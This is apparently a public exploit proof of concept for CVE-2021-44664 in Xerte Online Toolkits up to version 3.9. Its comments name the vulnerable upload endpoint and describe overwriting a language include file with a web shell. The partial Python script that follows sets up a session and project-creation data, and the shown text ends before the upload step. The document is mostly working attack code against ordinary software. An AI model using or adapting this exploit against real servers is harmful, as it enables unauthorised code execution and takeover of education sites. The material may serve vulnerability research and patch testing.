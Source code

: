     # Software Link: https://github.com/thexerteproject/xerteonlinetoolkits/archive/refs/heads/3.8.5-33.zip  
    # Version: up until version 3.9  
    # Tested on: Windows 10 XAMP   
    # CVE : CVE-2021-44664  
      
    # This PoC assumes guest login is enabled and the en-GB langues files are used.   
    # This PoC wil overwrite the existing langues file (.inc) for the englisch index page with a shell.  
    # Vulnerable url: https://<host>/website_code/php/import/fileupload.php  
    # The mediapath variable can be used to set the destination of the uploaded.  
    # Create new project from template -> visit "Properties" (! symbol) -> Media and Quota  
      
    import requests  
    import re  
      
    xerte_base_url = "http://127.0.0.1"  
    php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.  
      
    with requests.Session() as session:  
        # Get a PHP session ID  
        if not php_session_id:  
            session.get(xerte_base_url)   
        else:  
            session.cookies.set("PHPSESSID", php_session_id)  
      
         # Use a default template  
        data = {  
            'tutorialid': 'Nottingham',  
            'templatename': 'Nottingham',  
            'tutorialname': 'exploit',  
            'folder_id': ''  
        }  
      